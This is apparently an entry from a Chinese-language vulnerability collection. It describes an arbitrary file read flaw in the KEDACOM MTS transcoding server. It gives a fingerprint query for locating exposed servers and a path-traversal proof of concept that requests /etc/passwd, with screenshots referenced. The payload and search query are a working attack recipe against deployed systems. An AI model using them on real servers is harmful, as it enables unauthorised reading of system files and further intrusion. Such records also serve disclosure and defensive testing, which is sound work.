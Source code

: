 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## 网络测绘

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面

![image-20220525145422524](./images/202205251454625.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](./images/202205251454380.png)